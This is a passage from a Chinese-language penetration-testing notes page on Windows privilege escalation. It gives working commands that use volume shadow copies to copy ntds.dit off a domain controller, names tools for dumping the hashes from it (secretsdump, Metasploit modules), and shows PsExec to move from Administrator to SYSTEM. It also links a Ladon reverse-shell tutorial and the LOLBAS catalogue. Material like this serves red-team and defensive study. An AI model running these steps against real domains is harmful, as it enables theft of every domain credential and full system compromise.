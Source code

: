 - [〖教程〗Ladon非交互式runas执行命令/反弹SHELL ](http://k8gege.org/Ladon/runas.html)
> 系统自带Runas命令需要交互式登陆，在webshell或不支持交互式的shell下使用麻烦。而Ladon的Runas则完美解决了以上问题，支持非交互式模拟登陆指定用户运行程序或命令。

## 利用 Shadow Copies 提权（域控）
该利用方式一般用于从域控中获取 ntds.dit 文件（活动目录中的所有数据都保存在该文件中）。

获取卷影位置：
```powershell
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
# List shadow copies using diskshadow
diskshadow list shadows all

```

创建软链接以便查看。
```powershell
# Make a symlink to the shadow copy and access 
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

或者创建一个卷影拷贝，然后复制出来
```powershell
vssadmin create shadow /for=c:
copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\NTDS\ntds.dit c:\ntds.dit
```

获取到 ntds 后，可以想办法获取其中的散列值。
- Impacket 中的 Secretsdump
- msf 中的 Psexec_ntdsgrab 模块
- msf 中 Meterpreter会话 + windows/gather/credentials/domain_hashdump

**参考资料**：
- [域控安全之域渗透 - 知乎](https://zhuanlan.zhihu.com/p/441167567)

## 利用 PsExec 提权(Win2003 & Win2008)
PsExec 是 windows 内核套件 SysInternalSuite 中的一个工具，可以从 Administrator 提权到 SYSTEM

下载地址:[Sysinternals Utilities - Sysinternals | Microsoft Learn](https://learn.microsoft.com/en-us/sysinternals/downloads/)
```
PsExec -i -s cmd
```

参考
- [SecBooks/【公众号文章】bypass/实战遇见到的好用提权方法集合.md at main · SexyBeast233/SecBooks](https://github.com/SexyBeast233/SecBooks/blob/main/%E3%80%90%E5%85%AC%E4%BC%97%E5%8F%B7%E6%96%87%E7%AB%A0%E3%80%91bypass/%E5%AE%9E%E6%88%98%E9%81%87%E8%A7%81%E5%88%B0%E7%9A%84%E5%A5%BD%E7%94%A8%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95%E9%9B%86%E5%90%88.md)


## 利用 Windows 自带文件、脚本提权
Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/
